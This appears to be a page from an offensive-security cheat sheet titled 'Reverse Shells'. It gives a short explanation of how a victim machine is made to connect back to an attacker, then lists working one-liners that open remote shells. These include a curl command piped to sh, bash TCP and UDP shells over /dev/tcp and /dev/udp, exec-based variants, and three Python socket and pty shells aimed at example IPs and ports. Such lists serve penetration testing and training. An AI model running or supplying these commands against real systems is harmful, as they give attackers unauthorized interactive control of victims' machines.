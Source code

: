 ## Reverse Shells

Reverse shells are used when the attacker gets the victim machine to connect back to their machine.  Useful when firewalls or other security devices prevent bind shells.

### Reverse Shell as a Service - [https://shell.now.sh](https://shell.now.sh)

[https://github.com/lukechilds/reverse-shell](https://github.com/lukechilds/reverse-shell)

```bash
curl https://shell.now.sh/<ip>:<port> | sh
```

### **Bash Reverse Shells**

#### **TCP:**

```bash
bash -i >& /dev/tcp/192.168.1.2/4444 0>&1
```

#### **UDP:**

```bash
sh -i >& /dev/udp/192.168.1.2/5555 0>&1
```

### exec Reverse Shell

```bash
0<&196;exec 196<>/dev/tcp/$ip/$port; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/$ip/$port && while read line 0<&5; do $line 2>&5 >&5; done
```

### Python Reverse Shells

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.57",8099));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```python
export RHOST="192.168.1.2";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
